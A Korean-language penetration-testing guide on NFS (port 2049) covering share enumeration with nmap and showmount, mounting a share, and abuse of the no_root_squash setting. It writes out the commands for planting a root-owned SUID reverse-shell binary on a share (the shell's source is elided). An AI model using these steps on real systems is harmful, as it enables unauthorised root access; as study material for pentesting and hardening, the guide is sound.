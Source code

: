 
# NFS (2049) 가이드

NFS(Network File System)는 원격 시스템의 디렉터리를 로컬 시스템에 마운트하여, 마치 로컬 파일처럼 사용할 수 있게 해주는 프로토콜입니다. 설정이 미흡할 경우, 심각한 보안 취약점으로 이어질 수 있습니다.

---

### **1. NFS Enumeration**

- **목표:** NFS 서버가 어떤 디렉터리를 외부에 공유하고 있는지 확인합니다.

```bash title="showmount - 공유 목록 확인"
nmap -sV --script=nfs-showmount $target -v

# -e, --exports: 서버의 공유 목록(export list)을 보여줌
showmount -e $target
```

- **결과 분석:** 출력된 공유 디렉터리 경로와 함께, 접근이 허용된 IP 주소나 대역(`*`는 모두 허용)을 확인합니다.

---

### **2. 공유 디렉터리 마운트 (Mounting the Share)**

- **목표:** 확인된 공유 디렉터리를 로컬 머신에 연결하여 내부 파일을 탐색합니다.

#### **단계별 절차:**

1.  **로컬 마운트 지점 생성:**
```bash
mkdir /mnt/nfs_share
```

2.  **원격 공유 마운트:**
```bash title="mount - NFS 공유 마운트"
# -t nfs: 파일 시스템 타입을 NFS로 지정
# -o nolock: 파일 잠금을 사용하지 않아 구형 NFS 서버와의 호환성 문제를 줄여줌
mount -t nfs $target:/path/to/share /mnt/nfs_share -o nolock
```

3.  **탐색 및 정리:**
```bash
# 마운트된 디렉터리로 이동하여 파일 시스템 탐색
cd /mnt/nfs_share
ls -la

# 작업 완료 후 반드시 마운트 해제
umount /mnt/nfs_share
```

---

### **3. 주요 공격 벡터: `no_root_squash`**

- **개념:** `no_root_squash`는 NFS 공유의 가장 위험한 설정 중 하나입니다. 기본적으로 NFS는 클라이언트의 `root` 사용자가 공유 폴더에 접근하면, 권한이 없는 `nobody` 사용자로 강등시킵니다(이를 `root_squash`라 함). 하지만 `no_root_squash` 옵션이 설정되어 있으면, **클라이언트의 `root`가 서버에서도 `root` 권한을 그대로 유지**하게 됩니다.

- **공격 시나리오:**

  1.  `no_root_squash`로 설정된 공유를 로컬 `root` 권한으로 마운트합니다.
  2.  공격자 머신에서 C 코드로 리버스 셸 페이로드를 작성하고 컴파일합니다.
      ```bash(title="공격자: 리버스 셸 작성 및 컴파일")
      # revshell.c 작성
      # ...
      gcc revshell.c -o revshell
      ```
  3.  컴파일된 리버스 셸 파일을 마운트된 디렉터리로 복사합니다.
      ```bash
      sudo cp revshell /mnt/nfs_share/
      ```
  4.  마운트된 디렉터리 내에서 해당 파일의 소유자를 `root`로 변경하고, **SUID 비트를 설정**합니다.
      ```bash
      sudo chown root:root /mnt/nfs_share/revshell
      sudo chmod 4755 /mnt/nfs_share/revshell
      ```
  5.  이제 타겟 시스템의 일반 사용자가 해당 공유 폴더에 접근하여 `revshell` 파일을 실행하면, **파일 소유자인 `root`의 권한으로 Reverse Shell이 실행**되어 공격자에게 `root` Shell이 연결됩니다.



